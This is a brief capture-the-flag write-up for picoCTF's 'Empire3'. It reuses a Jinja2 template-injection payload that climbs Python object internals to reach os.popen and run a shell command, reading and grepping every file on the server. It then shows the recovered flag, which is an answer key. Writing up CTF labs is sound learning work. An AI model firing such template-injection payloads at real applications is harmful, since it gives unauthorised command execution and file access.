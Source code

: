 # Empire3

We can actualy reuse the injection from [the last one](./11-Empire2.md)

`{{ "".__class__.__mro__[1].__subclasses__()[117].__init__.__globals__['sys'].modules['os'].popen("cat $(find . -type f) | grep picoCTF").read() }}`

This give
```python
c = models.Todo(item='Do dastardly plan: picoCTF{cookies_are_a_sometimes_food_404e643b}', user_id=2)
secret = db.Column(db.String(128),default="picoCTF{cookies_are_a_sometimes_food_404e643b}") 
```

Flag: `picoCTF{cookies_are_a_sometimes_food_404e643b}`